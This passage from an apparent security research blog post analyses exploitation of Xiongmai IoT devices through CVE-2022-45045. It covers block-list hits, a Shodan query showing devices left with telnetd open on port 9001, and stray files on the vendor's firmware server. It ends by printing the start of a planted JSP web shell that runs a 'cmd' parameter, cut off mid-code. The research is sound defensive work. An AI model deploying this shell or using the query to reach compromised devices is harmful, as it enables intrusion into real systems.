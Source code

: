 following:\\n\\n\`\`\`\\nfirehol\_anonymous.netset: 1185\\nfirehol\_proxies.netset: 1185\\nfirehol\_level4.netset: 166\\nstopforumspam\_365d.ipset: 144\\nblocklist\_net\_ua.ipset: 142\\nstopforumspam\_180d.ipset: 68\\nfirehol\_abusers\_30d.netset: 57\\nstopforumspam.ipset: 45\\nstopforumspam\_90d.ipset: 45\\nhaley\_ssh.ipset: 24\\nsocks\_proxy\_30d.ipset: 22\\nnixspam.ipset: 14\\nvoipbl.netset: 14\\nstopforumspam\_30d.ipset: 13\\nsocks\_proxy\_7d.ipset: 10\\nproxylists\_7d.ipset: 9\\nproxylists\_30d.ipset: 9\\nesentire\_emptyarray\_ru.ipset: 9\\nlashback\_ubl.ipset: 8\\nesentire\_dorttlokolrt\_com.ipset: 8\\nesentire\_crazyerror\_su.ipset: 8\\ncleantalk\_30d.ipset: 7\\niblocklist\_ciarmy\_malicious.netset: 7\\nfirehol\_level3.netset: 7\\nesentire\_maddox1\_ru.ipset: 7\\nsblam.ipset: 6\\nciarmy.ipset: 6\\nproxylists\_1d.ipset: 5\\nnullsecure.ipset: 5\\ncleantalk\_new\_30d.ipset: 4\\nsocks\_proxy\_1d.ipset: 4\\ncleantalk\_updated\_30d.ipset: 4\\nesentire\_burmundisoul\_ru.ipset: 4\\nesentire\_22072014c\_com.ipset: 3\\nesentire\_22072014a\_com.ipset: 3\\nesentire\_22072014b\_com.ipset: 3\\nproxz\_30d.ipset: 3\\ntaichung.ipset: 3\\nesentire\_volaya\_ru.ipset: 3\\nbitcoin\_nodes\_30d.ipset: 3\\npacketmail\_ramnode.ipset: 2\\nbotscout\_30d.ipset: 2\\nstopforumspam\_7d.ipset: 2\\nnormshield\_high\_wannacry.ipset: 2\\nnormshield\_all\_wannacry.ipset: 2\\npacketmail.ipset: 2\\ncleantalk\_7d.ipset: 2\\nproxyspy\_30d.ipset: 2\\nproxz\_7d.ipset: 2\\nesentire\_downs1\_ru.ipset: 2\\nesentire\_manning1\_ru.ipset: 2\\nbitcoin\_nodes\_7d.ipset: 2\\nproxylists.ipset: 2\\nesentire\_inleet\_ru.ipset: 2\\nesentire\_getarohirodrons\_com.ipset: 2\\ncruzit\_web\_attacks.ipset: 1\\niblocklist\_cruzit\_web\_attacks.netset: 1\\ncleantalk\_new\_7d.ipset: 1\\ncleantalk\_updated\_7d.ipset: 1\\nproxyspy\_7d.ipset: 1\\nbitcoin\_blockchain\_info\_30d.ipset: 1\\ndarklist\_de.netset: 1\\nesentire\_smartfoodsglutenfree\_kz.ipset: 1\\nbitcoin\_nodes\_1d.ipset: 1\\nbitcoin\_nodes.ipset: 1\\ncoinbl\_hosts.ipset: 1\\nhphosts\_emd.ipset: 1\\nturris\_greylist.ipset: 1\\nblocklist\_de\_bruteforce.ipset: 1\\nfirehol\_level2.netset: 1\\nblocklist\_de\_apache.ipset: 1\\nblocklist\_de.ipset: 1\\nsslproxies\_30d.ipset: 1\\nesentire\_fioartd\_com.ipset: 1\\nesentire\_dagestanskiiviskis\_ru.ipset: 1\\nesentire\_venerologvasan93\_ru.ipset: 1\\nesentire\_hasanhashsde\_ru.ipset: 1\\nesentire\_14072015q\_com.ipset: 1\\nesentire\_mysebstarion\_ru.ipset: 1\\nesentire\_ebankoalalusys\_ru.ipset: 1\\nesentire\_14072015\_com.ipset: 1\\n\`\`\`\\n\\nThe result is actually quite a bit lower than I had expected. That may be due to the quality of the block list, or exploited endpoints don’t actually recruit others, or the scale of exploitation is on the small side. Regardless, looking over this list did provide one interesting insight. Validating this list, I discovered \[this\](https://www.shodan.io/search?query=port%3A9001+%22%2Fvar%22+-HTTP) Shodan query:\\n\\n!\[exploited\_port\_9001\](/blog/xiongmai-iot-exploitation/exploited\_port\_9001.png){:width="100%"}\\n\\nThis query shows devices that have recently been exploited by CVE-2022-45045. As we saw earlier, the attacker opens \`telnetd\` on port 9001 which allows them to begin their stage 2 attack. The endpoints listed on Shodan are systems where the attacker has failed to close \`telnetd\` to the reset of the world (or simply haven’t gotten around to it yet). \\n\\n## Firmware Updates\\n\\nIoT systems are notorious for using old firmware. However, internet-facing Xiongmai systems seem to be worse than usual. There are many internet-facing systems using firmware that was released between 2016 and 2019. I believe, in large part, this is because acquiring upgrades isn’t straightforward. For example, as mentioned a few times, I recently purchased a \[Sunba NVR-F8010SE\](https://sunbatech.com/product/nvr-f8010se/). The device arrived using a firmware from 2019. It has no auto-upgrade feature. The Sunba website doesn’t have a firmware file to download for the device. The NVR’s manual doesn’t mention upgrades. So, without any obvious leads, a normal user probably wouldn’t pursue upgrading the system. A normal user isn’t going to find Xiongmai’s firmware server, especially if they’re using a relabled device like Sunba. But there is a firmware download site: \[https://baike.jftech.com/download.html\](https://baike.jftech.com/download.html). \\n\\nXiongmai stores their firmware on \[myhuaweicloud\](https://obs-xm-customer.obs.cn-east-2.myhuaweicloud.com/). From this site, you can get a full directory listing of all available firmware (a vulnerability analyst dream). Interestingly, the firmware server is littered with non-firmware files.\\n\\n\`\`\`xml\\n\\n vuuzcu.jsp/\\n 2021-01-30T05:23:00.929Z\\n "134155a532a368eded42290a2a28bb58"\\n 35\\n \\n 65a011a29cdf8ec533ec3d1ccaae921c\\n \\n \\n STANDARD\\n\\n\\n wp-content/plugins/w3-total-cache/pub/sns.php\\n 2022-04-08T10:26:53.530Z\\n "07b9ab8f8dfa1f3f372a44da3f16cbbf"\\n 96\\n \\n 65a011a29cdf8ec533ec3d1ccaae921c\\n \\n \\n STANDARD\\n\\n\\n wxzqqi.jsp/\\n 2022-11-18T09:30:45.785Z\\n "9d631c65ed74752c7081301986f84fe6"\\n 35\\n \\n 65a011a29cdf8ec533ec3d1ccaae921c\\n \\n \\n STANDARD\\n\\n\\n\`\`\`\\n\\nNaturally, I was interested in what these files were. It’s a bit odd to find \`.php\` and \`.jsp\` files listed amongst the normal firmware \`.zip\`. Examining the file, some appear to be the result of a Nessus scan.\\n\\n\`\`\`\\ncurl https://obs-xm-customer.obs.cn-east-2.myhuaweicloud.com/wp-content/plugins/w3-total-cache/pub/sns.php\\n{"Type":"SubscriptionConfirmation","Message":"","SubscribeURL":"https://rfi.nessus.org/rfi.txt"}\\n\`\`\`\\n\\nOthers appear to be broken web
shells.\\n\\n\` curl https://obs-xm-customer.obs.cn-east-2.myhuaweicloud.com/poc.jsp/ \`\\n\\n\`\`\`java\\n\\n<%@ page import="java.util.\*,java.io.\*"%>\\n<%\\nif (request.getParameter("cmd") == null) { return }\\nout.println("Command: " + request.getParameter("cmd") + "  